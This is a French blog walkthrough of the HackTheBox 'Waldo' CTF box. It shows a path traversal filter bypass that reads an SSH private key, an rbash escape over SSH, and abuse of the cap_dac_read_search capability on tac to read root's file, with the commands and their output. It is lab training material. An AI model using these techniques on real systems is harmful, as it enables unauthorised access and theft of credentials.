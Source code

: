 # Solution du CTF Waldo de HackTheBox

Il était où hein le Charlie ?
-----------------------------

Un port SSH, un port HTTP... difficile de faire plus classique comme début.  

Sur la page d'index un système de gestion de listes :  

![Waldo CTF HackTheBox list manager](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/waldo_list_manager.png)

En ouvrant les dev-tools on trouve des requêtes XHR comme cette requête vers *dirRead.php* pour lister les listes et qui sent bon le path traversal :  

![Waldo CTF HackTheBox list manager XHR](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/waldo_xhr.png)

Si on accède à une liste c'est *fileRead.php* qui est appelé. Même pressentiment :)  

Le plus pratique est d'intercepter la requête à travers [Zed Attack Proxy](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project) pour pouvoir ensuite l'éditer et la retransmettre.  

On remarque vite une particularité si on tente de remonter dans le path :  

```plain
path= => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
path=. => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
path=.. => [".","..","html","localhost"]
path=../.. => [".","..","html","localhost"]
path=../../ => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

Au boût d'un moment on revient au répertoire courant, il y a donc un *str\_replace()* qui doit corriger notre path.  

Si on part de l'idée que le filtre est sur ../../ alors on peut le précéder de .. et ajouter un / final ainsi la suite de caractères ..../..// correspondra à une remontée dans l’arborescence :  

```plain
path=..../..//..../..// => [".","..","cache","empty","lib","local","lock","log","opt","run","spool","tmp","www"]
path=..../..//..../..//..../..// => [".","..",".dockerenv","bin","dev","etc","home","lib","media","mnt","proc","root","run","sbin","srv","sys","tmp","usr","var"]
```

On se balade jusqu'à ce dossier :  

```plain
path=..../..//..../..//..../..//home/nobody
[".","..",".ash_history",".ssh",".viminfo","l.sh","user.txt"]
```

Et dans le dossier *.ssh* on voit un fichier *.monitor* qui s'avère être... la clé privée SSH :)  

Pour obtenir le contenu la même faille est présente sur l'autre script ce qui nous amène à cette requête :  

```plain
POST http://10.10.10.87/fileRead.php HTTP/1.1
file=..../..//..../..//..../..//home/nobody/.ssh/.monitor
```

Free Charlie
------------

```plain
$ ssh -i waldo.key nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

Hmmm Charlie semble être enfermé dans un environnement *Docker* (*Alpine* est une version de Linux souvent utilisée dans ces envs parce que très allégée).  

Cela est très vite confirmé avec les interfaces réseau :  

```plain
docker0   Link encap:Ethernet  HWaddr 02:42:D3:28:1C:FD
          inet addr:172.17.0.1  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
      RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```

L'accès est suffisant pour avoir le flag utilisateur (*32768bcd7513275e085fd4e7b63e9d24*).  

Prends la clé ! Sors sors !
---------------------------

Dans la liste des *authorized\_keys* de notre compte *nobody* se trouve une référence à un certain *monitor* :  

```plain
ssh-rsa AAAAB3NzaC1---snip---Y4jBHvf monitor@waldo
```

Si on réutilise la clé pour accéder au serveur SSH depuis le docker :  

![Waldo CTF HackTheBox monitor ssh account ascii art](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/waldo_ascii_art.png)

On peut facilement bypasser le lancement du rbash (un bash restreint) en spécifiant le shell que l'on souhaite à SSH (on utilisera ici les options -t bash --noprofile).  

On obtient un shell à première vue limitée mais il s'agit en réalité du PATH peu remplis, ce qui est vite corrigé :  

```plain
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
monitor@waldo:~$ export PATH=/bin:/usr/bin:/sbin:/usr/sbin:/usr/local/bin:/usr/local/sbin:$PATH
```

Say Cap-tain, Say wut ?
-----------------------

Après avoir tourné un moment à chercher un chemin classique d'exploitation il est temps de se pencher sur les fichiers présents dans le dossier app-dev.  

On trouve un exécutable *logMonitor* à l'usage suivant :  

```plain
Usage: logMonitor [-aAbdDfhklmsw] [--help]
```

Contrairement à ce qu'on pouvait espérer l'option *--help* ne donne pas d'aide détaillée mais qu'importe puisque le code C est aussi présent :  

```c
{"auth", no_argument, 0, 'a'},
{"alternatives", no_argument, 0, 'A'},
{"btmp", no_argument, 0, 'b'},
{"dpkg", no_argument, 0, 'd'},
{"daemon", no_argument, 0, 'D'},
{"faillog", no_argument, 0, 'f'},
{"help", no_argument, 0, 'h'},
{"kern", no_argument, 0, 'k'},
{"lastlog", no_argument, 0, 'l'},
{"messages", no_argument, 0, 'm'},
{"syslog", no_argument, 0, 's'},
{"wtmp", no_argument, 0, 'w'},
```

En fonction de l'option choisie un path hardcodé est recopié vers une variable *filename*. Une fonction *printFile* est ensuite appelée qui affiche le fichier demandé via une boucle avec *fgetc* et *printf* (beurk).  

Parmi les paths correspondantq aux options on trouve */var/log/auth.log*, */var/log/faillog*, */var/log/wtmp*, etc autant dire des fichiers généralement pas accessibles à tout le monde.  

D'ailleurs si on lance *logMonitor -f* pour obtenir le *faillog* on obtient le message d'erreur *Cannot open file*.  

Le binaire n'est pas setuid et sudo n'est pas installé... logique quoi.  

En revanche une fois dans le sous dossier *v0.1* le binaire *logMonitor-0.1* parvient à lire le fichier... avec les mêmes observations (il n'est pas setuid) so what the fuck !?  

On fait un *getcap* dessus pour lister ses [capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html) et surprise :  

```plain
logMonitor-0.1 = cap_dac_read_search+ei
```

Ce programme a le super-pouvoir d'accéder à n'importe quel fichier du système en se moquant bien des permissions.  

Mais après avoir bien épluché le code C ce dernier ne semble pas faillible. Je ne suis pas au point sur les détails de fonctionnement des *capabilities* alors dans le doute j'ai tenté de hooker l'appel à *puts()* dans le code (via un *LD\_PRELOAD*) mais sans trop de surprises ça n'a pas été pris en compte.  

Finalement il fallait faire un gros *getcap* sur le disque pour trouver un autre binaire avec les même super-pouvoirs :  

```plain
monitor@waldo:~/app-dev$ getcap -r / 2> /dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei

monitor@waldo:~/app-dev$ tac /root/root.txt
8fb67c84418be6e45fbd348fd4584f6c
```


*Published December 15 2018 at 19:09*